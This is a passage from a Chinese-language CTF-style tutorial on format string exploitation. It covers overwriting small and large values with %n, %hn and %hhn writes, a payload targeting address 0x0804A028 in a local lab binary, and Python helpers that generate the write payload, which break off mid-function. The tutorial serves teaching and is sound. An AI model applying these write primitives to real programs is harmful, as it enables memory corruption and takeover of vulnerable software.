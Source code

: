 對應的結果如下

```shell
➜  overwrite git:(master) ✗ python exploit.py
[+] Starting local process './overwrite': pid 76508
[*] Process './overwrite' stopped with exit code 0 (pid 76508)
0xffc1729c
aaaa$\xa0\x0modified a for a small number.
```

其實，這裏我們需要掌握的小技巧就是，我們沒有必要把地址放在最前面，放在哪裏都可以，只要我們可以找到其對應的偏移即可。

#### 覆蓋大數字

上面介紹了覆蓋小數字，這裏我們介紹如何覆蓋大數字。上面我們也說了，我們可以選擇直接一次性輸出大數字個字節來進行覆蓋，但是這樣基本也不會成功，因爲太長了。而且即使成功，我們一次性等待的時間也太長了，那麼有沒有什麼比較好的方式呢？自然是有了。

不過在介紹之前，我們得先再簡單瞭解一下，變量在內存中的存儲格式。首先，所有的變量在內存中都是以字節進行存儲的。此外，在x86和x64的體系結構中，變量的存儲格式爲以小端存儲，即最低有效位存儲在低地址。舉個例子，0x12345678在內存中由低地址到高地址依次爲\x78\x56\x34\x12。再者，我們可以回憶一下格式化字符串裏面的標誌，可以發現有這麼兩個標誌：

```text
hh 對於整數類型，printf期待一個從char提升的int尺寸的整型參數。
h  對於整數類型，printf期待一個從short提升的int尺寸的整型參數。
```

所以說，我們可以利用%hhn向某個地址寫入單字節，利用%hn向某個地址寫入雙字節。這裏，我們以單字節爲例。

首先，我們還是要確定的是要覆蓋的地址爲多少，利用ida看一下，可以發現地址爲0x0804A028。

```text
.data:0804A028                 public b
.data:0804A028 b               dd 1C8h                 ; DATA XREF: main:loc_8048510r
```

即我們希望將按照如下方式進行覆蓋，前面爲覆蓋地址，後面爲覆蓋內容。

```text
0x0804A028 \x78
0x0804A029 \x56
0x0804A02a \x34
0x0804A02b \x12
```

首先，由於我們的字符串的偏移爲6，所以我們可以確定我們的payload基本是這個樣子的

```text
p32(0x0804A028)+p32(0x0804A029)+p32(0x0804A02a)+p32(0x0804A02b)+pad1+'%6$n'+pad2+'%7$n'+pad3+'%8$n'+pad4+'%9$n'
```

我們可以依次進行計算。這裏給出一個基本的構造，如下

```python
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
```